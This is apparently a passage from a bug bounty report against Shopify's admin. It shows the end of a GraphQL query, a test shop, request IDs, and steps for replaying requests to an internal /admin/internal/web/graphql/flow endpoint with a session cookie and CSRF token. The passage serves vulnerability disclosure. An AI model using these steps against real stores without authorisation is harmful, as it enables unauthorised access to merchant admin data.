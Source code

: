 ```
  parentUuid\n      __typename\n    }\n    ... on ArrayExpression {\n      uuid\n      arrayPathUuid\n      arrayItemKeyUuid\n      arrayOperator: operator\n      operationUuid\n      parentUuid\n      __typename\n    }\n    ... on Comparison {\n      uuid\n      lhsUuid\n      comparisonOperator: operator\n      rhsUuid\n      valueType\n      parentUuid\n      __typename\n    }\n    ... on EnvironmentValue {\n      uuid\n      value\n      parentUuid\n      fullEnvironmentPath\n      __typename\n    }\n    ... on LiteralValue {\n      uuid\n      value\n      parentUuid\n      __typename\n    }\n  }\n  __typename\n}\n\nfragment link on Link {\n  id\n  fromStepId\n  fromPortIdentifier\n  toStepId\n  toPortIdentifier\n  __typename\n}\n\nfragment activation on Activation {\n  contextId\n  contextType\n  __typename\n}\n\nfragment validationErrors on Workflow {\n  validationErrors {\n    __typename\n    ... on StepValidationError {\n      stepId\n      configFieldErrors {\n        stepConfigFieldIdentifier\n        message\n        position\n        configFieldLabel\n        errorCategory\n        __typename\n      }\n      conditionErrors {\n        nodeUuid\n        message\n        __typename\n      }\n      connectorErrors {\n        message\n        __typename\n      }\n      __typename\n    }\n    ... on WorkflowValidationError {\n      message\n      __typename\n    }\n  }\n  __typename\n}\n"}

```


## Shops Used to Test:
[add list of <shop>.myshopify.com domains here, if applicable]

https://davidola2.myshopify.com

## Relevant Request IDs:
[add list of Request ID values (found in X-Request-ID response header)]

856e1132-73d1-4f2f-9013-efbc7f8f0d94
2e174ced-69c0-40bb-8b19-c60f75636e61

## Steps To Reproduce:
[add details for how we can reproduce the issue]

1. Obtain any POST request and send to the repeater tab.
2. Edit it so it looks something like the one below. The key thing is that we'd be hitting the /admin/internal/web/graphql/flow endpoint. See the image below for details.
{F1667017}
```
POST /admin/internal/web/graphql/flow HTTP/2
Host: davidola2.myshopify.com
Cookie: _secure_admin_session_id=93f2f; _secure_admin_session_id_csrf=93f2
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:98.0) Gecko/20100101 Firefox/98.0
Accept: application/json
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/json
X-Shopify-Web-Force-Proxy: 1
X-Csrf-Token: VD...
Origin: https://davidola2.myshopify.com
Content-Length: 44
Dnt: 1
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Sec-Gpc: 1

{"operationName":"AppAccessTimeUpdate","variables":{"appId":"gid://shopify/App/1602671"},"query":"mutation AppAccessTimeUpdate($appId: ID!) {\n  appAccessTimeUpdate(id: $appId) {\n    app {\n      id\n      __typename\n    }\n    userErrors {\n      field\n      message\n      __typename\n    }\n    __typename\n  }\n}\n"}
```
3. Now, replace the request body with the queries provided above, starting with the first one.
